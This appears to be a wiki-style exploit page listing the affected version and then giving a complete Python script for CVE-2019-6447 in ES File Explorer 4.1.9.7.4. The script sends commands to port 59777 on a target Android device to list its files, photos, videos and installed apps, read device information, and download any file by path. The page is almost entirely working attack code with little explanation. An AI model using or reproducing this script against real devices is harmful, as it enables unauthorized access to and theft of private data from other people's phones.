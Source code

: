 <languages /> <translate>

影響版本
--------

</translate> Version: ES File Explorer v4.1.9.7.4

EXP
---

    # Exploit Title: ES File Explorer 4.1.9.7.4 - Arbitrary File Read
    # Date: 29/06/2021
    # Exploit Author: Nehal Zaman
    # Version: ES File Explorer v4.1.9.7.4
    # Tested on: Android
    # CVE : CVE-2019-6447

    import requests
    import json
    import ast
    import sys

    if len(sys.argv) < 3:
        print(f"USAGE {sys.argv[0]} <command> <IP> [file to download]")
        sys.exit(1)

    url = 'http://' + sys.argv[2] + ':59777'
    cmd = sys.argv[1]
    cmds = ['listFiles','listPics','listVideos','listAudios','listApps','listAppsSystem','listAppsPhone','listAppsSdcard','listAppsAll','getFile','getDeviceInfo']
    listCmds = cmds[:9]
    if cmd not in cmds:
        print("[-] WRONG COMMAND!")
        print("Available commands : ")
        print("  listFiles         : List all Files.")
        print("  listPics          : List all Pictures.")
        print("  listVideos        : List all videos.")
        print("  listAudios        : List all audios.")
        print("  listApps          : List Applications installed.")
        print("  listAppsSystem    : List System apps.")
        print("  listAppsPhone     : List Communication related apps.")
        print("  listAppsSdcard    : List apps on the SDCard.")
        print("  listAppsAll       : List all Application.")
        print("  getFile           : Download a file.")
        print("  getDeviceInfo     : Get device info.")
        sys.exit(1)

    print("\n==================================================================")
    print("|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |")
    print("|                Coded By : Nehal a.k.a PwnerSec                 |")
    print("==================================================================\n")

    header = {"Content-Type" : "application/json"}
    proxy = {"http":"http://127.0.0.1:8080", "https":"https://127.0.0.1:8080"}

    def httpPost(cmd):
        data = json.dumps({"command":cmd})
        response = requests.post(url, headers=header, data=data)
        return ast.literal_eval(response.text)

    def parse(text, keys):
        for dic in text:
            for key in keys:
                print(f"{key} : {dic[key]}")
            print('')

    def do_listing(cmd):
        response = httpPost(cmd)
        if len(response) == 0:
            keys = []
        else:
            keys = list(response[0].keys())
        parse(response, keys)

    if cmd in listCmds:
        do_listing(cmd)

    elif cmd == cmds[9]:
        if len(sys.argv) != 4:
            print("[+] Include file name to download.")
            sys.exit(1)
        elif sys.argv[3][0] != '/':
            print("[-] You need to provide full path of the file.")
            sys.exit(1)
        else:
            path = sys.argv[3]
            print("[+] Downloading file...")
            response = requests.get(url + path)
            with open('out.dat','wb') as wf:
                wf.write(response.content)
            print("[+] Done. Saved as `out.dat`.")

    elif cmd == cmds[10]:
        response = httpPost(cmd)
        keys = list(response.keys())
        for key in keys:
            print(f"{key} : {response[key]}")